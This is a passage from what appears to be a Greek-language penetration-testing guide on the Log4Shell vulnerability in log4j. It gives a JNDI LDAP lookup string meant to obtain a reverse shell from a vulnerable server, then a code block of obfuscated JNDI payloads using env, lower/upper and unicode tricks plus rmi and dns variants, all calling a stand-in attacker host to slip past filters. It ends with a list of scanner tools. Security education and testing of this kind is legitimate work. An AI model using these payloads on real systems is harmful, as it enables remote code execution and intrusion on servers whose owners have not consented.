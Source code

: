 ![](<../../.gitbook/assets/image (1118).png>)

Τώρα μπορείτε εύκολα να χρησιμοποιήσετε έναν παραγόμενο σύνδεσμο JNDI για να εκμεταλλευτείτε την ευπάθεια και να αποκτήσετε ένα **reverse shell** στέλνοντας σε μια ευάλωτη έκδοση του log4j: **`${ldap://10.10.14.10:1389/generated}`**

### Bypasses
```java
${${env:ENV_NAME:-j}ndi${env:ENV_NAME:-:}${env:ENV_NAME:-l}dap${env:ENV_NAME:-:}//attackerendpoint.com/}
${${lower:j}ndi:${lower:l}${lower:d}a${lower:p}://attackerendpoint.com/}
${${upper:j}ndi:${upper:l}${upper:d}a${lower:p}://attackerendpoint.com/}
${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://attackerendpoint.com/z}
${${env:BARFOO:-j}ndi${env:BARFOO:-:}${env:BARFOO:-l}dap${env:BARFOO:-:}//attackerendpoint.com/}
${${lower:j}${upper:n}${lower:d}${upper:i}:${lower:r}m${lower:i}}://attackerendpoint.com/}
${${::-j}ndi:rmi://attackerendpoint.com/} //Notice the use of rmi
${${::-j}ndi:dns://attackerendpoint.com/} //Notice the use of dns
${${lower:jnd}${lower:${upper:ı}}:ldap://...} //Notice the unicode "i"
```
### Αυτόματοι Σαρωτές

* [https://github.com/fullhunt/log4j-scan](https://github.com/fullhunt/log4j-scan)
* [https://github.com/adilsoybali/Log4j-RCE-Scanner](https://github.com/adilsoybali/Log4j-RCE-Scanner)
* [https://github.com/silentsignal/burp-log4shell](https://github.com/silentsignal/burp-log4shell)
* [https://github.com/cisagov/log4j-scanner](https://github.com/cisagov/log4j-scanner)
* [https://github.com/Qualys/log4jscanwin](https://github.com/Qualys/log4jscanwin)
* [https://github.com/hillu/local-log4j-vuln-scanner](https://github.com/hillu/local-log4j-vuln-scanner)
* [https://github.com/logpresso/CVE-2021-44228-Scanner](https://github.com/logpresso/CVE-2021-44228-Scanner)
* [https://github.com/palantir/log4j-sniffer](https://github.com/palantir/log4j-sniffer) - Βρείτε τοπικές ευάλωτες βιβλιοθήκες
